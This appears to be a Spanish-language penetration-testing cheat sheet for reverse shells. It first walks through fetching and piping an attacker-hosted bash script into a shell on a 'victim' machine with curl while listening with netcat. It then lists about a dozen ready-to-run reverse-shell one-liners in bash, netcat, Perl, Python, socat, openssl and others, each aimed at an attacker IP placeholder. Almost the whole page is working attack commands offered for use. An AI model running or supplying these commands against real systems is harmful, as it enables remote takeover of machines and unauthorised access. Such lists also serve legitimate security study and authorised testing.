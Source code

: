 ```yaml
---
title: Revershell cheet sheat
published: true
---
```


Primeramente debes tener ejecucion remota de comandos, 
luego verificar si hay curl  , lo haces con " which curl"
luedo de la maquina atacante te abres un servidor http y creas un 
index.html:
    ```console
    #!/bin/bash
    bash -i >& /dev/tcp/10.10.10.10/443 0>&1
    ```

y te pones en escucha en la maquina atacante con:
    ```
    nc -nlvp 443 
    ```
y ejecutas en la maquina victima lo siguiente 
    ```
    curl 10.10.10.10 | bash
    ```
obtendras una revershell(realizar tratamiento de la consola)

***********************
******MAS FORMAS*****
***********************

Este comando usa netcat (nc) para establecer una conexión con el sistema atacante en la dirección IP especificada y el puerto 443, y ejecuta una shell inversa para permitir al sistema atacante ejecutar comandos en el sistema objetivo.

    ```console
    nc -e /bin/sh X.X.X.X 443
    ```

Este comando utiliza el intérprete de comandos "bash" y "redirecciones de descriptor de archivo" para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
    ```console
    bash -i >& /dev/tcp/X.X.X.X/443 0>&1
    ``` 
  
Este comando utiliza el lenguaje de programación Perl y las funciones de socket para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
    ```perl
    perl -e 'use Socket;$i="X.X.X.X";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    ```
Este comando utiliza el lenguaje de programación Python y las funciones de socket para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
    ```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("X.X.X.X",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```
---

Este comando utiliza el programa socat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443. 
El comando crea un pseudo-TTY y lo conecta a través de un socket TCP.

    ```console
    socat file:tty,raw,echo=0 tcp-connect:X.X.X.X:443 
    ```
Este comando utiliza OpenSSH para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" a través del puerto 443. 
El comando habilita un tunel inverso (reverse tunnel) en el puerto 443 del sistema objetivo, que se conecta al puerto 443 del sistema atacante.

    ```console
    ssh -R 443:localhost:443 user@X.X.X.X  
    ```
Este comando utiliza el protocolo Telnet para establecer una conexión con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    ```console
    telnet X.X.X.X 443
    ```
 Este comando utiliza pipes ( tuberías) y la herramienta netcat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```console
    mknod backpipe p && nc X.X.X.X 443 0<backpipe | /bin/bash 1>backpipe
    ```

 Este comando utiliza el intérprete de comandos "bash" y redirecciones de descriptor de archivo para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    ```console
    /bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
    ```

 Este comando utiliza la herramienta openssl para establecer una conexión SSL/TLS con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    ```console
    openssl s_client -quiet -connect X.X.X.X:443
    ```

 Este comando utiliza redirecciones de descriptor de archivo y sockets TCP para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
    
    ```console
    exec 5<>/dev/tcp/X.X.X.X/443
    ```

 Este comando utiliza xterm, una terminal gráfica para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" en el puerto TCP/IP predeterminado para XDMCP (X Display Manager Control Protocol).

    ```console
    xterm -display X.X.X.X:0
    ```console
